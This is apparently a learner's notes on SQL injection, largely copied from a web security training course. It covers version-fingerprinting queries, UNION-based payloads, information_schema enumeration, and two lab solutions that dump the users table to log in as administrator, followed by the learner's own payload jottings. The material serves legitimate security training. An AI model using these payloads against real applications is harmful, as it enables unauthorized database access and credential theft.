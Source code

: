
## Examining the database in SQL injection attacks

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

## Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

|   |   |
|---|---|
|Database type|Query|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input:

`' UNION SELECT @@version--`

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`


## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

PRACTITIONER

LABSolved

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

 ####  Hint

[](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ACCESS THE LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft#)

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version:
    
    `'+UNION+SELECT+@@version,+NULL#`

___
## HARD LAB 
___



## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE`

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

This output shows the columns in the specified table and the data type of each column.



## Lab: SQL injection attack, listing the database contents on non-Oracle databases

PRACTITIONER

LABSolved

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

 ####  Hint

[](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ACCESS THE LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#)

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.


----
----

note


![[../images/Pasted image 20231024221107.png]]




# to list the tables
select * from information_schema.tables

 This returns output like the following:
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE

This output indicates that there are three tables, called Products, Users, and Feedback. 

`in payload format`

'union select table_name , NULL from information_schema.tables --

`this upper commands displays all the table name , now we have to select any one of the table which seems fruitful`

####lets say table selected is 'users_bondfq'


----

now we have to find the columns in the column

payload format

`union select column_name , NULL form information_schema.columns where table_name = 'users_bondfq' --`


-----

now we have to find the select fruitful column

payload format
`union select column1, column2 from table_name --`



